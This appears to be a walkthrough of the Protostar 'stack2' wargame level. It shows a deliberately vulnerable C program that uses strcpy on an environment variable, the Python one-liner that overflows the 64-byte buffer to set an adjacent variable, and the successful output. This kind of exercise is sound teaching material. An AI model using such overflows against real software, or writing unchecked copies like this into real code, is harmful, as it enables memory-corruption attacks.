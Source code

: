 Source:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Write the following: `GREENIE=$(python -c "print 'a'*64+'\x0a\x0d\x0a\x0d'") ./stack2`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ GREENIE=$(python -c "print 'a'*64+'\x0a\x0d\x0a\x0d'") ./stack2
you have correctly modified the variable
```
